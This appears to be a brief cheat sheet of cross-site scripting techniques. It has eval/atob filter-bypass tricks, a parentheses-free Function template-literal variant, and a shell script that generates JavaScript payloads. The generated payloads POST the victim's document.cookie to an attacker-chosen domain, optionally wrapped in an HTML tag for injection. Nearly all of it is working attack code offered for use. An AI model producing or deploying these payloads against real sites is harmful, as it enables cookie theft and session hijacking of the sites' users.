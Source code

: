 # XSS

eval(atob(b64\_payload)) can help with some bypasses (eval() can be nested)

````javascript
//eval("String" + <USER_INPUT>)
eval(atob('YWxlcnQoMSk='))
// Note above would be nested as:
eval("String" + eval(atob('YWxlcnQoMSk='))

//Avoid Parentheses 
Function`x${'eval\x28atob\x28\x27YWxlcnQoMSk=\x27\x29\x29'}x```
````

Script for generating fetch commands

```bash
#!/bin/sh

if [ $# -lt 1 ];
then
        echo "$0 target_domain html_tag";

elif [ $# -eq 1 ];
then
        target_domain=$1

cat << EOF
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
EOF

else
        target_domain=$1
        tag=$2

cat << EOF
<$tag>
fetch('//$target_domain',
        {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
});
</$tag>
EOF
fi


```
